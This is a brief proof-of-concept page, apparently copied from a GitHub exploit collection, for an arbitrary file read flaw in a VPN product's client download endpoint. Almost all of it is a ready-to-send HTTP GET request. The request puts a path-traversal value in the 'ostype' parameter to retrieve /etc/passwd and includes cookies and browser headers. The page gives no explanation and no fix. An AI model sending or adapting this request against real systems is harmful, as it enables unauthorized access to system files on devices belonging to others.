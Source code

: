 # tqhm_download_fileread

from: https://github.com/wy876/POC/blob/main/%E5%90%AF%E6%98%8E%E6%98%9F%E8%BE%B0-%E5%A4%A9%E6%B8%85%E6%B1%89%E9%A9%ACVPN%E6%8E%A5%E5%8F%A3download%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96.md

```
GET /vpn/user/download/client?ostype=../../../../../../../etc/passwd HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: VSG_VERIFYCODE_CONF=0-0; VSG_CLIENT_RUNNING=false; VSG_LANGUAGE=zh_CN; VSG_CSRFTOKEN=1ec96cd6acc254fcf9e9cd6d1e85cf23
Host: 
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
```
